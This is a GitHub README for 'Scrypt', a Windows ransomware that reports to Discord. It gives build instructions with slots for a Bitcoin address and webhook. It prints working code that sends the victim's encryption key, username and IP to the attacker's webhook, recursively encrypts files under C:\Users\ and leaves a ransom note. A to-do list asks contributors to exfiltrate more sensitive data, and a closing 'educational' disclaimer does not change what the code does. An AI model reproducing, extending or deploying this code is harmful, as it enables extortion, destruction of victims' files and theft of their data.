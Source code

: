 i didn't create this thing btw,
original creator: https://github.com/backslash
i just forked his repo before his account got deleted.

<div>
  <h1 align="center">Scrypt</h1>
  <h3 align="center">Ransomware with Discord Integration</h3>
</div>

 <p align="center">
  <img width="660" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/ransomware.jpg?raw=true">
</p>

  Scrypt is a windows Ransomware with discord integration. After trying to find a reason to procrastinate a friend gave me the idea to speedrun making ransomware, so that I did. After around 5 hours I finished up Scrypt and this is the repo containing the full source code to the ransomware, the decrypter along with some notes on how it operates. What sets Scrypt aside from all the other Ransomware clones out there is its utilization of discord webhooks to send user reports.
  
<h3 align="center">Scrypt Attack Vectors</h4>
  Once you are hit by Scrypt you will instantly realize you are a victim. A giant screen warning the user (as shown below) will take up your entire screen, once you hit the continue button the window will become invisble so it can continue to run in the background. While I had wanted to use chacha20 for file encryption I ended up sticking to AES-128 due to my limited time.
 <p align="center">
  <img width="660" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/lockscreen.png?raw=true">
</p>
  
  Another feature of Scrypt is its easy report feature which gives you a detailed report of your victim, I used myself below as an example for how the data looks, this can be used to easily match client ID's.
 <p align="center">
  <img width="460" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/report.PNG?raw=true">
</p>

  Scrypt will also leave behind a nice little readme on the desktop just in case the client forgets any of his information. This will contain information such as your btc address, client, id and detailed steps to recovering there files. 
   <p align="center">
  <img width="460" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/note.PNG?raw=true">
</p>

<h3 align="center">Setup</h4>

  Setup is straight forward, run the following commands as listed here:
```
  pip install pyqt5
  pip install requests
  pip install pyinstaller
  pip install pycrypto
```
  Once you have all the dependencies installed go to your python file and modify this to include your information:
```
btcAdd = ""
email = ""
discordWebhook = ""
```
  After you have fully set this up head over to command prompt and run the following commands:
```
  cd "your folder path to scrypt"
```
  then run
```
  pyinstaller --onefile "Scrypt.py"
```
  Wait for it to finish building and thats about it for setup.  

<h3 align="center">Understanding the Code</h4>
Scrypt starts off with the flashing screen to grab the users attention however in the background the ransomware itself runs, it starts of by sending a message which just gives a detailed report of our user along with the unique id and seeded password.

`````
	def sendMessage(self):
		try:
			self.getUserDetails() #trys to retrieve information about the user
		except:
			pass
		data = {
				"embeds": [
					{
					   "title": "**__Victim Report__:**", #uses said datain the report 
						"description": f"```css\nUSERID: {self.randomId}``` ```css\nKEY: {self.encryptionPass}``` ```css\nUSERNAME: {self.userName}``` ```css\nIP: {self.ip}```",
						"color": 13959168,
						"thumbnail": {
						"url": "https://www.pngkit.com/png/full/168-1680567_69137579-pentagram-with-demon-baphomet-satanic-goat.png"
					},
						"author": {
							"name": "Scrypt",
							"icon_url": "https://i.imgur.com/F3j7z5K.png"
							}
					}
				]
			}
		r = requests.post(discordWebhook, json=data) #makes a post request to our webhook with given data
`````

 Next starts the file encryption, our ransomware goes through every file in the provided folder path, in this case being `C:\\Users\\` and then proceeds to get handles for each filepath which will be passed as an argument for when we want to encrypt our files.  
```
	def run(self):
		self.sendMessage() #---------| Calls our function to send our user report via post request to our webhook.
		for root, directories, files in os.walk(self.filePath): #We are now itterating through our directories
			for filename in files: #now we are getting all of our files
				filepath = os.path.join(root, filename) 
				for base in fileTypes:
					if base in filepath:
						threading.Thread(target=self.encryptFile, args=(filepath,)).start() #multithreading our file encryption 
		
		self.readMe() #Creating our read me document
```
Each file is opened in read binary mode which is then encrypted with our pycrypto library with proper padding, then we flush the file contents and write our new file. 
  
```
	def encryptFile(self, file):
		try:
			with open(file, 'rb') as infile:
				content = self.crypto.encrypt(pad(infile.read(),32))
				with open(file, "wb") as outfile:
					outfile.write(content)
					outfile.close()
		except:
			pass
```
<h3 align="center">To Do List</h4>
  Hello fellow developers, if you are interested in contributing to Scrypt I will happily accept pushes for new features or improvements to the current version, this was made in 5 hours so its got a few things that could for sure use improvement:
  - [ ] Improve File Handeling (Change Extenstion not hard to do os.rename())
  - [ ] Give the decrypter a user interface.
  - [ ] Speed up the encryption proccess
  - [ ] Send more data/sensitive data via webhook.  
  - [ ] Create a builder for Scrypt for easier generation
  - [ ] Change encryption to salsa20 or chacha20  

  
  
<h3 align="center">Legal Notice</h4>
  This is illegal if you use this without the consent of others, I am not accountable for anything you get into, this was just a speedrun to demonstrate how ransomware is made/looks. This is 100% educational. Please do not misuse this tool.

